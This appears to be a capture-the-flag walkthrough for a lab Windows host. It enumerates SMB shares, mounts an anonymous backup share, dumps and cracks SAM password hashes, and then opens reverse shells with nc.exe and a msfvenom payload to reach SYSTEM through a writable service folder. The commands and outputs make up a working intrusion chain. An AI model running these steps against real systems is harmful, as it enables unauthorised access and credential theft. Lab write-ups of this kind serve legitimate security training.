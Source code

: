 
```zsh
nmap --script smb-enum-shares -p139,445 -T4 -Pn 172.31.1.18                                                                             [4/6685]
                                                                                                                        
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-10 12:42 EDT                                                         
Nmap scan report for 172.31.1.18                                                                                        
Host is up (0.16s latency).                                                                                             
                              
PORT    STATE SERVICE  
139/tcp open  netbios-ssn 
445/tcp open  microsoft-ds                                  
                              
Host script results:                                        
| smb-enum-shares:                                          
|   account_used: guest
|   \\172.31.1.18\ADMIN$:                                   
|     Type: STYPE_DISKTREE_HIDDEN                                                     
|     Comment: Remote Admin                                 
|     Anonymous access: <none>   
|     Current user access: <none>                                                     
|   \\172.31.1.18\C$:                      
|     Type: STYPE_DISKTREE_HIDDEN                                                     
|     Comment: Default share               
|     Anonymous access: <none>                                                        
|     Current user access: <none>                                                     
|   \\172.31.1.18\IPC$:                    
|     Type: STYPE_IPC_HIDDEN               
|     Comment: Remote IPC                  
|     Anonymous access: READ/WRITE                                                    
|     Current user access: READ/WRITE                                                 
|   \\172.31.1.18\backups:                 
|     Type: STYPE_DISKTREE                 
|     Comment:                             
|     Anonymous access: READ               
|_    Current user access: READ


```

```zsh
mount -t cifs //172.31.1.8/backup -o user=guest,password= /mnt/sam
```
```zsh
cd /mnt/sam/Windows/System32/config
```
Copy SAM and SYSTEM File to crack

```zsh

 ./pwdump.py SYSTEM SAM                                                                                                                          
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                      
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                              
jamie:1001:aad3b435b51404eeaad3b435b51404ee:68b1d3b0493ec0d6a1c0b8725062ab71:::                                                                                             
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:661e39b67cabec9066e1de26094770ab:::
```
Cracking the Hash

```zsh
hashcat -m 1000 68b1d3b0493ec0d6a1c0b8725062ab71 /usr/share/wordlists/rockyou.txt
```
Cracked hash:

```68b1d3b0493ec0d6a1c0b8725062ab71:rangers ```


5985 is running so evil-winrm

Get-Service doesnot work, services work.

winpeas or powerup doesnot give us anything.

Manual enumeration is the way.Upload nc and get out of Powershell. 

```cmd
./nc.exe -e cmd.exe 10.10.0.40 443
```

```                                                                                                                        
c:\Services>icacls "c:\Services"                                                                                        
icacls "c:\Services"                                                                                                    
c:\Services BUILTIN\Users:(OI)(CI)(F)                                                                                   
            NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)                                                                          
            BUILTIN\Administrators:(I)(OI)(CI)(F)                                                                       
            BUILTIN\Users:(I)(OI)(CI)(RX)                                                                               
            BUILTIN\Users:(I)(CI)(AD)                                                                                   
            BUILTIN\Users:(I)(CI)(WD)                                                                                   
            CREATOR OWNER:(I)(OI)(CI)(IO)(F)
```

```zsh
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.0.40 LPORT=53 -f exe > monitor1.exe
```
Start a listener on port 53 on your kali machine
upload it, sc start monitor1 and you will have a System shell